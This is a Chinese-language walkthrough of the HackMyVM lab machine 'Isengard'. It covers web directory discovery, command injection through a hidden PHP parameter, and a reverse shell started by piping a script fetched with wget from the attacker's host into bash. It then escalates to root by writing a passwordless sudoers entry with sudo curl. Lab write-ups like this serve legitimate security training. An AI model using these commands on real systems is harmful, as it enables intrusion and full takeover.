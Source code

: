 # Isengard

2025.01.01 https://hackmyvm.eu/machines/machine.php?vm=Isengard

## Ip

192.168.5.21

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

80 web 扫描目录没什么隐藏目录，查看 html 源码，在 main.css 文件最底部发现隐藏信息：

```
http://192.168.5.21/main.css

/* btw: in the robots.txt i have to put the url /y0ush4lln0tp4ss */
```

访问 http://192.168.5.21/y0ush4lln0tp4ss 查看其源码，发现有注释信息，但是图片没有隐写信息：

```
<!-- <img src="2.jpg" /> -->
```

对目录/y0ush4lln0tp4ss 进行扫描，扫描出一个目录 http://192.168.5.21/y0ush4lln0tp4ss/east/ 查看其源码，发现 ring.zip ，下载 http://192.168.5.21/y0ush4lln0tp4ss/east/ring.zip 下载后将其解压，发现最终里面有个 password 文件，但是没看出什么信息。

继续对 east 目录进行扫描，又扫描出一个 http://192.168.5.21/y0ush4lln0tp4ss/east/mellon.php 访问后什么都没有，应该是有隐藏参数，可能存在文件包含或者是 RCE，使用 ffuf 进行探测：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://192.168.5.21/y0ush4lln0tp4ss/east/mellon.php?FUZZ=ls
```

找到参数 frodo 可以执行命令，直接 kali 建立监听，然后反弹 shell：

```
curl -G --data-urlencode 'frodo=wget -q -O - http://192.168.5.3/5-3/8888.sh|bash' http://192.168.5.21/y0ush4lln0tp4ss/east/mellon.php
```

得到反弹的 shell 后，在当前目录下，发现:

```
www-data@isengard:/var/www/html/y0ush4lln0tp4ss/east$ cat oooREADMEooo
it is not easy to find the unique ring
keep searching
```

提示继续寻找 ring 文件，发现另一个 ring.zip ： /opt/.nothingtoseehere/.donotcontinue/.stop/.heWillKnowYouHaveIt/.willNotStop/.ok_butDestroyIt/ring.zip 解压后获的内容：

```
www-data@isengard:/tmp$ cat  ring.txt
ZVZoTFRYYzFkM0JUUVhKTU1rTk1XQW89Cg==
```

两次 base64 解码后，得到 yXKMw5wpSArL2CLX 看样子像是个密码，尝试切换到用户 sauron，切换成功。

得到了 user flag：

```
sauron@isengard:~$ cat user.txt
HMV{Y0uc4nN0tp4sS}
```

sudo -l 发现提权点：

```
(ALL) /usr/bin/curl
```

直接将 sudoers 配置文件下载到：

```
echo 'sauron ALL=(ALL:ALL) NOPASSWD: ALL' > /tmp/tt
sudo curl file:///tmp/tt -o /etc/sudoers.d/tt
```

最终得到了 root flag：

```
sudo su root
root@isengard:~# cat root.txt
HMV{Y0uD3stR0y3dTh3r1nG}
```
